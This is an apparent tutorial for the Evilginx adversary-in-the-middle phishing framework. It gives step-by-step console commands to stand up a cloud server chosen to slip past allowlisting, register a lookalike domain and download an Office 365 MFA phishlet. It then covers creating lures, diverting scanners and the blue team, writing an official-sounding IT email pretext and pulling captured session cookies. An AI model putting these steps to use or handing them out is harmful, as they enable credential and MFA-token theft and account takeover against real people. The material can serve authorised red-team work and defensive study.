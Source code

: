 # Evilginx Man-in-the-Middle attack framework

### Github repo: https://github.com/kgretzky/evilginx2

### Resources: https://breakdev.org/evilginx-3-3-go-phish/

## Setup:

### Our Evilginx server needs to be accessible over the internet and for this we can stand up a VM from any cloud provider. If the target uses Azure (for example) then this cloud platform address space is likely to be allowlisted, so it would make sense to stand up an Azure virtual machine in that case. We used a Ubuntu Linux EC2 instance.

 - ./evilginx (Run evilginx)

### After running our built evilginx binary we confirm it's working see that we need to specify the path to a directory containing our Evilginx phishlets. Phishlets are small YAML configuration files that configure Evilginx to target specific websites for phishing attacks. The example phishlet exists in the phishlets directory by default.

 - build/evilginx -p phishlets (Specify a path to a directory containing our Evilginx phishlets)

### Next, we need to configure the domain to use for our phishing campaign. You can register a domain if needed. We have used the domain LEGITIMATE_DOMAIN that looks legitimate (example). We also provide Evilginx with the public IP address of the VM or any redirector you have configured. 

 - config ipv4 external EXTERNAL_IP

 - config domain LEGITIMATE_DOMAIN.COM

 - cd phishlets

 - wget https://raw.githubusercontent.com/faelsfernandes/evilginx3-phishlets/main/o365-mfa.yaml (Navigate to the phishlets directory and download a phishlet of your choosing)

### A few phishing subdomains were specified in the phishlet and we can go ahead and create A host records for them in the DNS management section of our domain (your domain provider may look different).

### In the Evilginx console we can configure the hostname that should be used with the phishlet.

 - phishlets hostname PHISHLET_NAME LEGITIMATE_DOMAIN.COM

 - phishlets enable PHISHLET_NAME

 - phishlets hide EXAMPLE_PHISHLET

### Running Evilginx again we see our phishlet and can now create a lure! Lures are pre-generated phishing links that will be sent out on phishing engagements.

### If you want to check the state of your phishlets at any time, you can do so using the phishlets command. Some other helpful commands are below.

Action                =              Command
-----------                         -----------
Function              =              Clear-Token 

Start Evilginx         =             ./evilginx

Close Evilginx          =            exit

Get the phising URL      =           lures get-url <lure-id>

Get the config            =          config

List all phishlets         =         phishlets

List all sessions           =        sessions

Get details from specific session  = sessions <session-id>

Clear screen           =             clear

Hide a phishlet         =            phishlets hide <phishlet-name>

Unhide a phishlet        =           phishlets unhide <phishlet-name>

### Now let's create a lure for our PHISHLET_NAME phishlet! We can actually create multiple lures per phishlet if we wanted to, for example we might want different targets to have different redirect URLs.

 - lures create PHISHLET_NAME

 - lures

 - lures get-url 0

### For requests to our Evilginx server that don't contain a lure path, we can assume that they are scanners (or the blue team), and then redirect these "unauthenticated" requests to a different URL. 

### Evilginx also enables and updates a blocklist by default. The IP addresses associated with any requests that don't contain a valid lure URL will automatically be added to the blocklist.

### Visiting our phishing site LEGITIMATE_DOMAIN in the browser we see the Microsoft Online sign-in page (example)!

### Next to craft our email lure and pretext! Emails from IT that sound official and demand compliance can be successful.

### After sending the email, we find that our victim clicked on the link and entered his username and password, and possibly also the MFA token if this is configured!

 - sessions NUM (See that we have successfully captured cookies for the login session)
